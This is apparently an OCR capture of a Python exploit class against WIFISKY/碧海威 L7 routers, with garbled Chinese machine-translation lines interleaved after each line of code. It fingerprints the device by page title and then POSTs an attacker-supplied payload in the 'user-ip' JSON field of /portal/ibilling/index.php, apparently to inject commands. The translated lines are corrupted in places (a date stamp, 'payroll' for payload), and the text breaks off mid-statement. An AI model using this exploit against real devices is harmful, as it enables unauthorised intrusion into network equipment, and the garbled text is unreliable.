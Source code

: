 def Checker(self):  
define（self）：

r = requests.get(self.target, verify=False, headers=self.headers, timeout=1)  
r = requests.get（self.target，verify=False，headers=self.headers，timeout=1）

if (  
如果（

"<title>碧海威L7云路由无线运营版</title>" in r.text

or "<title>WIFISKY 7层流控路由器</title>" in r.text  
或“WIFISKY 7流控路由器“在r.text中

):

path = requests.get(  
path = requests.get（

self.target + "/portal/ibilling/index.php", verify=False, timeout=1  
self.target“/portal/ibilling/index.php”，verify=False，timeout=1

)

if path.status\_code == 200:  
如果path.status\_code == 200：

print("Checking is Done..")  
print（“Checking is Done..“）

return True  
返回True

def exploit(self):  
def exploit（self）：

print("Sending Paylod")  
print（“正在发送工资单”）

r = requests.post(  
2019 - 05 - 25 requests.post01：02

self.target + "/portal/ibilling/index.php",  
self.target“/portal/ibilling/index.php”，

json={"type": "5", "user-ip": self.payload, "bypass": "AAAA"},  
json={“type”：“5”，“user-ip”：self.payload，“bypass”：“AAAA”}，

verify=False,  
verify=False，

headers=self.headers,  
header =self. header，

timeout=1,  
timeout=1，

)

if r.status\_code != 200 or r.text.find("error-code") == \-1:  
if r.status\_code！= 200或r.text.find（“error-code”）== -1：
